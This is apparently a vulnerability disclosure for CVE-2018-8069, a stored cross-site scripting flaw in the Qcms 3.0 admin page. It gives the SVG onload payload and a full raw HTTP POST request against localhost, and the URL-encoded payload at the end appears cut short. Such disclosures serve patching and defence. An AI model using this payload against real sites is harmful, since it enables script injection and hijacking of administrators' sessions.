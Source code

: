 # Qcms version 3.0 has xss via the webname parameter to the /backend/system.html URI

**CVE-2018-8069**
there is a xss in admin page `/backend/system.html` webname parameter.

set xss payload `<svg/onload=alert(0)>` to the webname parameter and save the edit then visite site `/index.php`,there is a alert box to show 0.

![](1.png)

	POST /backend/system.html HTTP/1.1
	Host: localhost
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
	Referer: http://localhost/backend/system.html
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 40
	Cookie: PHPSESSID=8sqolv5pb9kfljuh5g0b36tus6; admin_id=1; admin_level=1; admin_name=admin; admin_secret=f63fad88029cf8f923c35fafe1c6b5d1; UM_distinctid=162181544af9-0ca6b89389a11d8-4c322172-1fa400-162181544b04ce;
	Connection: close
	Upgrade-Insecure-Requests: 1
	
	webname=%3Csvg%2Fonload%3Dalert%280%29%3

![](2.png)
